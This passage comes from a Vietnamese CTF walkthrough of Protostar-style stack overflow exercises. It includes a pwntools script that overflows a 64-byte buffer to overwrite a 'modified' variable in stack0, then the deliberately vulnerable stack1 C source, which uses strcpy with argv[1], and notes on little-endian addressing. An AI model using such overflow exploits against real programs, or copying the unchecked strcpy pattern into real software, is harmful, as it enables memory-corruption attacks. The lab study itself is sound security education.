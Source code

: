 
Mình dùng đoạn code sau để exploit bài này!
```
from pwn import *

BIN = "./stack0"
DEBUG = 1

gets = 0x0000000000400588
callback = 0x0000000000400575
def exploit():
  payload = b"A"*0x4c + b"B"
  # _breakpoint = """
  #     b *0x0000000000400588
  # """
  # gdb.attach(io, _breakpoint)
  io.sendline(payload)
  io.recv()
  io.interactive()


io = process(BIN)
# context.log_level='debug'
exploit()
```

```
You changed the 'modified' variable
```
## Stack 1

LevelUp++ ! 
Cùng check code C đề cung cấp cho chúng ta như sau :
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("You have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
Chà chà , bài này về cơ chế cũng tương tự bài z3r0 thôi nhé ! Nhưng mà khác ở điểm phương thức nhập input sẽ khác và biến modified yêu cầu thành 1 giá trị xác định rõ ràng cụ thể là *modified = 0x61626364* và input sẽ nhập bằng argv[1] !
Cũng không có gì là quá khó vì chúng ta đã xác định được vị trí của 2 biến trên.
Có 1 điều cần lưu ý là đối với địa chỉ sẽ được ghi theo little edian, có nghĩa là byte nhỏ nhất sẽ nằm ở đầu tiền và byte lớn nhất lại nằm sau cùng ! Tuy nhiên chúng ta có hàm p64() từ thư viện pwntools sẽ giúp chúng ta phần đó 